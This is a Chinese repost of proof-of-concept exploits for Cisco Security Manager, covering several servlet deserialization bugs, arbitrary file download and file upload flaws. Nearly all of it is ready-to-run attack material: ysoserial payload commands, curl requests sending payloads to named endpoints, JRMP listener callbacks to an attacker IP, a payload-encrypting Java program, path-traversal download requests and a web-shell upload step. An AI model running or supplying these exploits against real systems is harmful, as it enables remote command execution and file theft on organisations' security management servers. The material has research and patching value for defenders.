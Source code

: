 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/6X09PZ9gjaPL-auWPEaoeg)

简介
--

思科安全管理器是一个企业级安全管理应用程序，可提供对思科安全和网络设备的了解和控制。Cisco Security Manager 在广泛的 Cisco 安全设备中提供全面的安全管理（配置和事件管理），包括 Cisco ASA 自适应安全设备，Cisco IPS 系列传感器设备，Cisco 集成服务路由器（ISR），Cisco 防火墙服务模块（FWSM） ，Cisco Catalyst，Cisco 交换机等等。Cisco Security Manager 允许您有效地管理各种规模的网络 - 从小型网络到包含数百台设备的大型网络。

POC
---

### SecretService.jsp  反序列化漏洞

`java -cp ./commons-beanutils-1.6.1.jar:[YOUR_PATH]]/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.GeneratePayload CommonsBeanutils1 "cmd.exe /c calc.exe" > payload_CommonsBeanutils`

`curl -k --request POST --data-binary "@payload_CommonsBeanutils" https://[TARGET_HOST]/CSCOnm/servlet/SecretService.jsp`

### CsJaasServiceServlet 反序列化漏洞

Compile JaasEncryptor.java and replace the _b64Payload_ content:

```
import java.security.InvalidKeyException;import java.util.Base64;import com.cisco.nm.cmf.security.jaas.BlobCrypt;public class JaasEncryptor {        public static void main(String args[]) {                String b64Payload = "rO0ABXN9AAAAAQAaamF2YS5ybWkucmVnaXN0cnkuUmVnaXN0cnl4cgAXamF2YS5sYW5nLnJlZmxlY3QuUHJveHnhJ9ogzBBDywIAAUwAAWh0ACVMamF2YS9sYW5nL3JlZmxlY3QvSW52b2NhdGlvbkhhbmRsZXI7eHBzcgAtamF2YS5ybWkuc2VydmVyLlJlbW90ZU9iamVjdEludm9jYXRpb25IYW5kbGVyAAAAAAAAAAICAAB4cgAcamF2YS5ybWkuc2VydmVyLlJlbW90ZU9iamVjdNNhtJEMYTMeAwAAeHB3MQAKVW5pY2FzdFJlZgAIMTAuMC4wLjIAAAG7AAAAAEBnvkQAAAAAAAAAAAAAAAAAAAB4";                byte[] payload = Base64.getDecoder().decode(b64Payload);                byte[] key = new byte[]{-100, 76, -23, 87, 125, 0, 5, 94, 12, 76, 37, -84, 36, 78, 123, 5};                                byte[] enc = BlobCrypt.encryptArray(payload, key);                System.out.println("Encrypted payload: " + Base64.getEncoder().encodeToString(enc));                byte[] dec = BlobCrypt.decryptArray(enc, key);        }}
```

Prepare JRMP Listener:

`java -cp [YOUR_PATH]/commons-beanutils-1.6.1.jar:[YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 443`

`java -jar [YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar JRMPClient '[YOUR_IP]]:443' | base64 -w0`

Compile encrypted payload:

`javac -cp [YOUR_PATH]]/server_jars_classes/jars.jar:./ JaasEncryptor2.java; java -cp [YOUR_PATH]/server_jars_classes/jars.jar:./ JaasEncryptor`

Send payload to Servlet with parameters _cmd=data_ + new line + _data=[ENCRYPTED_PAYLOAD]_.

### AuthTokenServlet 反序列化漏洞

Prepare JRMP Listener:

`java -cp [YOUR_PATH]/commons-beanutils-1.6.1.jar:[YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1337 CommonsBeanutils1 "cmd.exe /c calc.exe"`

`java -jar [YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar JRMPClient '[YOUR_IP]]:1337' > payload_JRMP1_2`

Send request:

`curl -k --request POST --data-binary "@payload_JRMP1_2" https://[TARGET_IP]/CSCOnm/servlet/com.cisco.nm.cmf.servlet.AuthTokenServlet`

### ClientServicesServlet 反序列化漏洞

Prepare JRMP listener:

`java -cp [YOUR_PATH]/commons-beanutils-1.6.1.jar:[YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1337 CommonsBeanutils1 "cmd.exe /c calc.exe"`

`java -jar [YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar JRMPClient '[YOUR_IP]:1337' > payload_JRMP1_3`

Send request:

`curl -k --request POST --data-binary "@payload_JRMP1_3" https://[TARGET_IP]/CSCOnm/servlet/com.cisco.nm.cmf.servlet.ClientServicesServlet`

### CTMServlet 反序列化漏洞

`java -cp ./commons-beanutils-1.6.1.jar:[YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.GeneratePayload CommonsBeanutils1 "cmd.exe /c calc.exe" > payload_CommonsBeanutils1_2`

`curl -i -s -k -X $'POST' -H $'Content-Type: application/octet-stream' -H $'CTM-URN: com-cisco-nm-vms-ipintel-IpIntelligenceApi' -H $'CTM-VERSION: 1.5' -H $'CTM-PRODUCT-ID: /C:/Program Files (x86)/CSCOpx/MDC/tomcat/vms/athena/WEB-INF/lib/' -H $'Cache-Control: no-cache' -H $'Pragma: no-cache' -H $'User-Agent: Java/1.8.0_222' -H $'Host: [TARGET_IP]' -H $'Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2' -H $'Connection: keep-alive' --data-binary "@payload_CommonsBeanutils1_2" $'https://[TARGET_IP]/athena/CTMServlet'`

### XdmConfigRequestHandler 任意文件下载

`GET /athena/xdmProxy/xdmConfig[RELATIVE_PATH_TO_FILE]`

### XdmResourceRequestHandler 任意文件下载

`GET /athena/xdmProxy/xdmResources[RELATIVE_PATH_TO_FILE]?dmTargetType=TARGET.IDS&dmOsVersion=7.&command=editConfigDelta`

### XmpFileUploadServlet 任意文件上传

Write a web shell e.g.

`POST /cwhp/XmpFileUploadServlet?maxFileSize=100`

Normal multi-part e.g. writing web shell in _filename_ with _../../MDC/tomcat/webapps/cwhp/testme.jsp_.

### XmpFileDownloadServlet 任意文件下载

`GET /cwhp/XmpFileDownloadServlet?parameterName=downloadDoc&downloadDirectory=[RELATIVE_PATH_TO_DIRECTORY]&readmeText=1`

This will respond with a ZIP file containing all files from the directory.

### SampleFileDownloadServlet 任意文件下载

`GET /cwhp/SampleFileDownloadServlet?downloadZipFileName=pwned&downloadFiles=README&downloadLocation=[RELATIVE_PATH_TO_DIRECTORY]`

This will respond with a ZIP file containing all files from the directory.

### resultsFrame.jsp 任意文件下载

`GET /athena/itf/resultsFrame.jsp?filename=[RELATIVE_PATH_TO_FILE]`

### SecretServiceServlet 反序列化漏洞

See also https://de.tenable.com/security/research/tra-2017-23

`java -cp [YOUR_PATH]/commons-beanutils-1.6.1.jar:[YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1337 CommonsBeanutils1 "cmd.exe /c calc.exe"`

`java -jar [YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar JRMPClient '[YOUR_IP]:1337' > payload_JRMP1_2`

`curl -k --request POST --data-binary "@payload_JRMP1_2" https://[TARGET_IP]/CSCOnm/servlet/com.cisco.nm.cmf.servlet.SecretServiceServlet`

参考
--

https://www.zdnet.com/article/cisco-reveals-this-critical-bug-in-cisco-security-manager-after-exploits-are-posted-patch-now/


